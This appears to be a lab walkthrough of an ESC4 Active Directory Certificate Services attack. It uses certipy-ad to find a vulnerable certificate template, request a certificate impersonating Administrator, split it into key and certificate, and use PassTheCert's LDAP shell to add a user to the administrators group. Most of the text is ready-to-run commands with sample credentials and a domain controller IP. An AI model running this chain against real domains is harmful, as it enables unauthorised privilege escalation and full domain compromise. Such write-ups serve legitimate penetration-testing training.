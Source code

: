 
1. check User Joint Groups
```powershell
whoami /all
```
![Pasted image 20250609231308](https://github.com/user-attachments/assets/30e609e6-5ace-4afc-b2ac-03f42ca6d6e0)

2. Determine if it’s truly vulnerable Using `certipy-ad`
**Installing**
```shell
sudo apt install certipy-ad
```
If error indicates a conflict between two packages: `certipy-ad` and `python3-certipy`.
Do the follwoing
```shell
sudo apt remove python3-certipy
sudo apt install certipy-ad
```
3. We can use `certipy-ad` to check for vulnerabilities and retrieve the template locally, especially since we have the user credentials.
```shell
certipy-ad find -u <user> -p <password> -dc-ip <Domain-IP> -stdout -vulnerable
```
**Example**
```shell
certipy-ad find -u Jodie.Summers -p "hHO_S9gff7ehXw" -dc-ip 192.168.171.30 -stdout -vulnerable
```
![Pasted image 20250609231800](https://github.com/user-attachments/assets/28e835fd-7bde-4204-920c-fa91d945eae6)


![Pasted image 20250609231845](https://github.com/user-attachments/assets/99e4c88d-022e-4271-83a3-99d528b2dced)

We can clearly see the message indicating that ESC4 has dangerous permissions.

Now time to exploit and get the `administrator` hash since we have gotten the template name let request to receive a certificate.
```shell
certipy-ad req -username <user> -p <password> -template <template-name> -dc-ip <Domain ip> -ca <CA Name> -upn <user@domain> -dns <DNS Name> -debug
```
**Example**
```shell
certipy-ad req -username "Jodie.Summers" -p "hHO_S9gff7ehXw" -template NaraUser -dc-ip 192.168.171.30 -ca NARA-CA -upn 'Administrator@nara-security.com' -dns Nara.nara-security.com -debug
```
![Pasted image 20250609232054](https://github.com/user-attachments/assets/5baf93c0-f65f-4bb2-85f9-4408423a7a45)


**Get the admin hash**
Typically at this point I would use the `auth` command to get the NTLM hash for the administrator user:
```shell
certipy-ad auth -pfx <PATH_TO_PFX_CERT> -domain <domain> -username <user> -dc-ip <Domain-ip>
```
**Example**
```shell
certipy-ad auth -pfx administrator_nara.pfx -domain nara-security.com -username administrator -dc-ip 192.168.171.30
```

![Pasted image 20250609233956](https://github.com/user-attachments/assets/12163e32-e8fd-4fb2-9a8f-e4926999cabc)

Unfortunately it doesn't work
> If you run into a situation where you can enroll in a vulnerable certificate template but the resulting certificate fails for Kerberos authentication, you can try authenticating to LDAP via SChannel using something like [PassTheCert](https://github.com/AlmondOffSec/PassTheCert). You will only have LDAP access, but this should be enough if you have a certificate stating you’re a domain admin.

To perform a PassTheCert attack, I’ll need the key and certificate in separate files, which `certipy` can handle:
```shell
certipy-ad cert -pfx <PATH_TO_PFX_CERT> -nocert -out <PEM_KEY>
certipy-ad cert -pfx <PATH_TO_PFX_CERT> -nokey -out <PEM_CERT>
```
**Example**
```shell
certipy-ad cert -pfx administrator_nara.pfx -nocert -out administrator.key
certipy-ad cert -pfx administrator_nara.pfx -nokey -out administrator.crt
```
Installed `PassTheCert`
**Download**
```shell
wget https://github.com/AlmondOffSec/PassTheCert/raw/refs/heads/main/Python/passthecert.py
```
It also offers an `ldap-shell` option that allows me to run a limited set of commands on the DC.
```shell
python passthecert.py -action ldap-shell -crt <Certificate.crt> -key <Certificate.key> -domain <domain> -dc-ip <domain-ip>
```
**Example**
```shell
python passthecert.py -action ldap-shell -crt administrator.crt -key administrator.key -domain nara-security.com -dc-ip 192.168.171.30
```
![Pasted image 20250610000300](https://github.com/user-attachments/assets/d30518f1-4c73-4b16-a0cd-10d1f4068b49)
```ldap
add_user_to_group <User> <Group>
```
**Example**
```ldap
add_user_to_group jodie.summers administrators
```
![Pasted image 20250610000340](https://github.com/user-attachments/assets/43c4c5dd-439b-43e5-b1f8-c0434f318424)

